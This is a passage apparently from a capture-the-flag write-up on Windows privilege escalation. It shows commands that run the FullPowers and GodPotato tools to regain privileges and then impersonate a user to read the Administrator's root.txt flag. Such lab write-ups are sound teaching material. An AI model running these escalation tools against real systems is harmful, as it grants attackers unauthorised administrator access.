 Now if we run FullPowers.exe, we will get more privileges as Local Service

``` cmd
Fullpowers.exe
whomai /priv
```
![](Visual/fullpowers.png)
![](Visual/whoamipriv.png)


### GodPotato
We can now use GodPotato to impersonate another user and get the root.txt flag
``` cmd
GodPotato -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"
```